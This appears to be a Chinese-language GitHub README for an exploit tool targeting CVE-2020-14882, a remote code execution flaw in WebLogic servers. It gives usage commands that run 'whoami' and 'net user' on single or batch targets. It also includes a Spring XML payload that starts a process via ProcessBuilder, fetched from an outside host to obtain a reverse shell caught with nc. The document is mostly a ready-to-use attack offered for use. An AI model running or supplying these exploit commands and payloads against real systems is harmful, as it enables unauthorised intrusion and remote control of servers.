


# CVE-2020-14882 RCE 漏洞
>CVE-2020-14882_ALL综合利用工具，支持命令回显检测、批量命令回显、外置xml无回显命令执行等功能。
>
>需要模块：requests、http.client


### 选项


### 功能一：命令回显
python3 CVE-2020-14882_ALL.py -u http://1.1.1.1:7001 -c "net user"


python3 CVE-2020-14882_ALL.py -u http://1.1.1.1:7001 -c "whoami"



### 功能二：批量命令回显
```shell script
python3 CVE-2020-14882_ALL.py -f target.txt -c "whoami"
```
> target.txt 格式：http://x.x.x.x:xx，一行一个。


### 功能三：外置xml文件无回显命令执行
1. Linux反弹shell为例，编辑好poc.xml文件，开启python监听。  

```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
	<value>cmd</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

开启python监听。  


nc开启监听。  


2. 使用-x选项指定xml文件路径，发送payload。  
```shell script
python3 CVE-2020-14882_ALL.py -u http://xxxx:7001 -x http://xxx:8000/poc.xml
```
  
3. 成功接收shell。  


